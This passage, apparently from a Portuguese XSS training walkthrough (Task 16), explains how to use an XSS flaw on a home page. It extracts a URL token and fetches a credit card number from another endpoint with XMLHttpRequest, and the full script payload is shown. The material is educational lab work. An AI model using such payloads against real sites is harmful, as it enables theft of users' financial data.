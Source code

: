 ![Task 16](/img/posts/2023-06-21-beyond-the-alert-43.png)

#### Objetivo

Muitas vezes a informação que desejamos em uma aplicação, não está armazenada na mesma página vulnerável a XSS, porém, conhecendo a arquitetura da aplicação ou da API, é possível, a partir de um XSS, buscar estas informações em qualquer lugar.

O objetivo desta *task*, é se aproveitar do ponto vulnerável a XSS na tela inicial para buscar o número do cartão de crédito contido em outro *endpoint* da aplicação com uma requisição do tipo GET usando `XMLHttpRequest()`. Após obter estes dados, eles precisam ser inseridos em um elemento chamado `exploit` que está na tela inicial.

Porém, neste caso, a validação do *endpoint* também precisa de umn *token* que transita pela URL.

#### Conhecimento Base

É possível separar cada elemento que compõe a URL com o método `window.location.search`. Neste caso em específico, como existe um delimitador padrão entre parâmetros GET `&`, podemos usar o `split()` para obtermos somente o que precisamos.

#### Exploração

A exploração é muito parecida com as anteriores, porém neste caso, é preciso passar um *token* de validação que existe na URL, neste caso, é preciso extrair este token antes de montar a requisição.

```html
<script>
var req = new XMLHttpRequest();

req.onreadystatechange = function () {
	if (req.readyState == 4 && req.status == 200) {
		document.getElementById("exploit").innerHTML = req.responseText;
	}
};

var token = window.location.search.split("&")[1];
req.open("GET", "/16/creditCard/?user=h41stur&"+token, true);
req.send();
</script>
```

